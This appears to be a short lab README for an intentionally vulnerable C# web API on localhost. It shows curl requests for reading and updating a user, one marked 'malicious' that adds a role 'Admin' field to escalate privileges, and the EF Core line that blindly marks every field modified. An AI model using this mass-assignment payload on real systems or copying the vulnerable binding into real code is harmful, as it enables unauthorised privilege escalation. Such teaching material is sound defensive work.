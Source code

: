 ## Getting user details

Retrieve user JSON:

```bash
curl -s http://localhost:5182/users/1 | jq
```

---

## Benign user details update

Safe update (no role elevation):

```bash
curl -s -X PATCH http://localhost:5182/users/1 \
  -H "Content-Type: application/json" \
  -d '{"Id":1,"FullName":"Alice L. Example","Username":"alice","Email":"alice@example.test"}' \
  | jq
```

---

## Malicious user details update (example)

Example of a request that attempts privilege escalation by adding `role: "Admin"`:

```bash
curl -s -X PATCH http://localhost:5182/users/1 \
  -H "Content-Type: application/json" \
  -d '{"Id":1,"FullName":"Alice L. Example","Username":"alice","Email":"alice@example.test", "role":"Admin"}' \
  | jq
```

---

## Vulnerable code (highlight)

```csharp
// Intentionally vulnerable: binds straight to User entity and marks all fields Modified
_db.Entry(dto).State = EntityState.Modified;
```

**Why this is dangerous:** it blindly trusts client payload and updates every column — allows elevation (e.g., `role`) and unexpected data changes.

---

